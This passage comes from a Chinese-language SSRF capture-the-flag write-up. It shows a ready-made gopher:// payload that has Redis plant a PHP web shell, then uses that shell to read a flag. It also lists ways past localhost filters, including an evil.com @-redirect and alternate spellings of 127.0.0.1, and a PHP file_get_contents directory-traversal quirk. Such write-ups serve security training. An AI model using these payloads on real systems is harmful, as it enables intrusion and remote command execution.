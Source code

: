 ```shell
Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): PHPShell

Give web root location of server (default is /var/www/html):
Give PHP Payload (We have default PHP Shell):

Your gopher link is Ready to get PHP Shell:

gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

When it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter.

-----------Made-by-SpyD3r-----------
```

同样再编码一次，然后`shell.php?cmd=cat /flaaag `

**redis**就是类似mysql的具有内网端口的服务，所以一些具有固定内网端口并有一定权限的服务都可这样打

**ctfshow**的题稍偏基础，后面会补充更多有意思的比赛题和方法

#### 一些补充

##### 其他绕过127的方法

如果目标代码限制访问的域名只能为 http://www.xxx.com，那么我们可以采用HTTP基本身份认证的方式绕过。即@：http://www.xxx.com@www.evil.com http://www.evil.com/

http://xip.io，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，如访问：http://127.0.0.1.xip.io/flag.php时，实际访问的是http://127.0.0.1/1.php 像这样的网址还有 http://nip.io，http://sslip.io

短网址目前基本都需要登录使用，如缩我，https://4m.cn/

各种指向127.0.0.1的地址

```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

##### 利用不存在的协议头绕过指定的协议头

file_get_contents()函数的一个特性，即当PHP的file_get_contents()函数在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。（include()函数也有类似的特性）
